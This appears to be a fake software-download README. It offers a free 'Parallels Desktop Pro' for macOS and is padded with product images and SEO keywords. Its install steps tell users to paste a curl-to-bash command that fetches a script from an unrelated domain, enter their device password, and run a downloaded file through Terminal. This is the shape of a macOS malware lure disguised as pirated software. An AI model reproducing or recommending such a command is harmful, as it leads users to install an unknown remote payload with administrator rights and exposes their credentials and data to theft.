 # Parallels Desktop Pro — Download for macOS

[![Download Setup Assistant](https://img.shields.io/badge/Download-Setup_Assistant-blueviolet)](https://parallels-desktop-pro-mac-download.github.io/.github)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

🎯 **What You Unlock**

🖥️ Run Windows and other operating systems seamlessly on macOS  
⚡ High-performance virtualization optimized for Apple Silicon  
🛠️ Advanced tools for developers and power users  
📊 Resource allocation and management controls  
💻 Compatible with macOS Big Sur, Monterey, Ventura, and newer  
🚫 No App Store or subscription needed  

🖼 **Preview**

![Parallels Desktop Pro Interface](https://m.media-amazon.com/images/I/71UJxmJQZbL._AC_UF1000,1000_QL80_.jpg)  

![Parallels Desktop Pro Features](https://www.parallels.com/static/pl/fileadmin/res/img/pd/2024/pro/pdp-hero.png)  

![Parallels Desktop Pro Workflow](https://www.parallels.com/static/pl/fileadmin/res/img/pdb/2023/pdb-hero.jpg)  



🔍 **SEO Keywords**

parallels desktop pro, parallels desktop for mac pro edition, parallels desktop pro edition, parallels for macbook pro, parallels ipad pro, parallels pro edition, macbook air parallels, parallels desktop for mac pro, parallels desktop pro for mac, parallels desktop pro mac download, parallels desktop pro mac free download, parallels desktop pro download, parallels virtualization mac, parallels mac software, parallels pro offline installer, parallels desktop latest version mac
  


